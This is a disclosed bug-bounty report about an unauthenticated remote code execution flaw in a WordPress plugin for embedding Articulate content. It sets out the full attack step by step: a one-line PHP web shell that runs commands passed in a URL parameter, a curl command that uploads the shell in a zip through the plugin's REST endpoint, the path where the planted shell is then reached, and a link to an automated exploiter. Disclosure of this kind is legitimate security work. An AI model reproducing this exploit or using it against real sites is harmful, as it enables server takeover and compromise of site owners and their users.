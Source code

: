 # WordPress Plugin Insert or Embed Articulate Content into WordPress Remote Code Execution (UNAUTHORIZED)

## Report Details
- **Report ID**: 696198
- **URL**: https://hackerone.com/reports/696198
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-09-17T03:52:56.149Z
- **Disclosed**: 2019-11-11T15:23:26.672Z

## Reporter
- **Username**: j4tayu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
because in the burp suite, the build request is complicated, I only use curl
1. Create file index.html and index.php

Index.html : 
<html>
Hello world
</html>

Index.php :
<?php
system($_GET[cmd]);
?>

2. Once created enter into .zip (COMPRESS)
3.  LETS UPLOAD
CURL :
curl site.com/index.php/wp-json/articulate/v1/upload-data -F "name={NAMAFILE}" -F "chunk={RANDOM}" -F "chunks={RANDOM}" -F "file=@YOURFILE.zip"
4. OK HERE, THERE IS A READING UPLOAD COMPLETE which means success
we try access to
site.com/PATH/ <PATH = PATH AT RESULT EX: site.com/wp-content/uploads/articulate_uploads/kntl17/index.php

For the autoxploiter https://pastebin.com/BEy5iDLA

## Impact

Remote code execution

## Attachments
No attachments
